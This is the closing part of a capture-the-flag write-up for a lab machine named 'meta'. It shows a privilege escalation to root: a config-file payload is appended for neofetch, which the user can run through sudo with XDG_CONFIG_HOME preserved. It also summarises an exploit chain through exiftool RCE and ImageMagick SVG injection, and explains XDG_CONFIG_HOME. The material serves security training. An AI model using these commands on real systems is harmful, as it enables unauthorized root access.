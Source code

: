 ### thomas -> root

Enumerate sudo:

- `env_keep+=XDG_CONFIG_HOME`
- `sudo /usr/bin/neofetch`
- [neofetch | GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/#sudo): but the payload need option `--config $TF`

```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

**Exploit**: add payload into XDG_CONFIG_HOME's neofecth configuration and exeuting sudo neofetch with setted XDG_CONFIG_HOME because of env_keep.

```console
thomas@meta:~$ ls -l ~/.config/neofetch/config.conf
-rw-r--r-- 1 thomas thomas 14591 Aug 30  2021 /home/thomas/.config/neofetch/config.conf
thomas@meta:~$ echo 'exec /usr/bin/bash' >> ~/.config/neofetch/config.conf
thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
root@meta:/home/thomas# id
uid=0(root) gid=0(root) groups=0(root)
root@meta:/home/thomas# uname -a
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
```

## Exploit Chain

port scan -> subdomain scan -> dev0.artcorp.htb -> metaview function with tool: exiftool -> exiftool exploit cve, rce -> www-data -> pspy to discover a scheduled task with ImageMagick's tool mogrify executed by thomas -> svg shell injection -> thomas shell -> sudo enum: env_keep & neofetch -> add payload into config file -> trigger payload -> root shell

## Beyond Root

### XDG_CONFIG_HOME

`XDG_CONFIG_HOME` is a part of the XDG Base Directory Specification, which is a framework designed to standardize the location of user configuration files in UNIX-like operating systems. The specification helps to manage user settings and configuration files, keeping the home directory cleaner by reducing clutter.

#### What is `XDG_CONFIG_HOME`?

`XDG_CONFIG_HOME` defines the base directory relative to which user-specific configuration files should be stored. If `XDG_CONFIG_HOME` is either not set or empty, the default `~/.config` should be used.
